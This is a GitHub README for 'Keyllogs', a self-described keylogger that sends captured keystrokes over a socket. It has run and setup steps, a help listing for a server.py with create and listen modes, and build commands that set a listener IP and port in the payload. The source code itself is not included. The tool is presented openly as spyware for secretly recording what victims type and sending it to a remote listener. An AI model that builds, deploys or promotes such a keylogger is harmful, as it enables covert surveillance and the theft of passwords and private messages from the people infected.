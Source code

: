 # Keyllogs
👻 - Simple Keylloger with Socket

<h1 align="center">Keyllogs</h1>

<p align="center">
  <img src="https://media.discordapp.net/attachments/834069767416446977/931329369350213682/Keyllogs.jpg?width=973&height=671">
</p>


## 🎲 - Run Keyllogs :
```cs
/*
  - Install Keyllogs
  - Extract it
  - Run setup.bat
  - type : Keyllogs.py -h
*/
```

## 🎲 - Help :
```cs

C:\Users\Bidouffe\Desktop\key>server.py -h

usage: server.py [-h] [-A A] [-H H] [-P P]

Keyllogs [Bidouffe]

optional arguments:
  -h, --help  show this help message and exit
  -A A        Action [create/listen]
  -H H        IP to listen
  -P P        PORT to listen

```


## 🎲 - compile :
```cs
 - Keyllogs.py -A create -H YOURIP -P YOURPORT
 - setup.py
```
#

<p align="center"> 
  <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/Bidouffe/Keyllogs">
  <img alt="star" src="https://img.shields.io/github/stars/Bidouffe/Keyllogs">
  <img alt="commit" src="https://img.shields.io/github/last-commit/Bidouffe/Keyllogs">
  <img alt="license" src="https://img.shields.io/github/license/Bidouffe/Keyllogs">
</p>
